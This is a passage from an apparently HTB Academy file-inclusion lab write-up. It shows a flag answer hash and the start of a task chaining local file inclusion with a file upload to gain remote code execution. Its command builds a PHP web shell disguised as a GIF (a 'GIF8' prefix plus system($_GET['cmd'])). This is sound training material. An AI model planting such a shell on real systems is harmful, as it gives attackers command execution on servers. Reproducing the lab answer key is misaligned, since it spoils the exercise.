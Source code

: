 ![Firefox - RFI 3](./assets/screenshots/file_inclusion_rfi_3.png)

**Answer**

```
99a8fc05f033f2fc0cf9a6f9826f83f4 
```

## LFI and File Uploads

### Questions

#### Question #05

**Question**

 Use any of the techniques covered in this section to gain RCE and read the flag at `/`.

![Firefox - LFI File Upload 1](./assets/screenshots/file_inclusion_lfi_file_upload_1.png)

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' | tee shell.gif

GIF8<?php system($_GET["cmd"]); ?>
```
